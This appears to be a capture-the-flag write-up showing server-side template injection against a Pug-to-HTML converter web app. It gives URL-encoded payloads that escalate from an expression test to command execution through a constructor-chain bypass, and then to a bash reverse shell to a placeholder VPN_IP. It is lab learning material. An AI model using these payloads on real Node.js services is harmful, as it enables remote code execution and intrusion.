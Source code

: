 ```yaml
---
sticker: lucide//book-template
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 5000 | HTTP    |



# RECONNAISSANCE
---

Let's check the website out:


![](cybersecurity/images/Pasted%2520image%252020250606121148.png)

We are dealing with something called `PUG to HTML Converter`, **Pug** (formerly called Jade) is a server-side templating engine for Node.js that uses indentation and terse syntax to generate HTML. Under the hood, Pug compiles these templates into JavaScript functions that build an HTML string. Any interpolation tags, like `#{…}` (escaped) or `!{…}` (unescaped), are evaluated as JavaScript expressions at render time.

Let's check an exploit for this: 

![](cybersecurity/images/Pasted%2520image%252020250606121717.png)

We got RCE via SSTI, let's proceed to exploitation.

# EXPLOITATION
---


First of all, we should send the request to our proxy, I'll be using Caido:

![](cybersecurity/images/Pasted%2520image%252020250606121819.png)

As seen, we got a `template` parameter, let's try doing the SSTI:

```
template=doctype+html%0Ahead%0A++title+Test%0Ah1+Result%3A+%23%7B7*7%7D
```

![](cybersecurity/images/Pasted%2520image%252020250606122035.png)


As seen, we get:

```html
<pre>&lt;!DOCTYPE html&gt;&lt;head&gt;&lt;title&gt;Test&lt;/title&gt;&lt;/head&gt;&lt;h1&gt;Result: 49&lt;/h1&gt;</pre>
```


That means `7*7` is being evaluated so, SSTI works, let's try reading more files and even attempt the RCE, let's try using the `require` function:

```js
template=h1+%23%7Brequire%28%27child_process%27%29.execSync%28%27id%27%29.toString%28%29%7D
```


![](cybersecurity/images/Pasted%2520image%252020250606122552.png)

Require seems to be disabled on here, we can do a little trick with the `constructor` function:

```js
template=h1+%23%7Bthis.constructor.constructor%28%22return+process%22%29%28%29.mainModule.require%28%27child_process%27%29.execSync%28%27id%27%29.toString%28%29%7D
```

![](cybersecurity/images/Pasted%2520image%252020250606122635.png)

There we go, `rce` works, let's send ourselves a reverse shell now:

```js
template=h1+%23%7Bthis.constructor.constructor%28%22return+process%22%29%28%29.mainModule.require%28%27child_process%27%29.execSync%28%22bash+-c+%27bash+-i+%3E%26+/dev/tcp/VPN_IP/4444+0%3E%261%27%22%29%7D
```

![](cybersecurity/images/Pasted%2520image%252020250606122827.png)

Nice, we got our shell, no need to perform privilege escalation, we can simply read our flag:

```
find / -type f -name "flag.txt" 2>/dev/null\
/usr/src/app/flag.txt

user@774c7a0d6226:/tmp$ cat /usr/src/app/flag.txt
flag{3cfca66f3611059a0dfbc4191a0803b2}
```

![](cybersecurity/images/Pasted%2520image%252020250606123957.png)

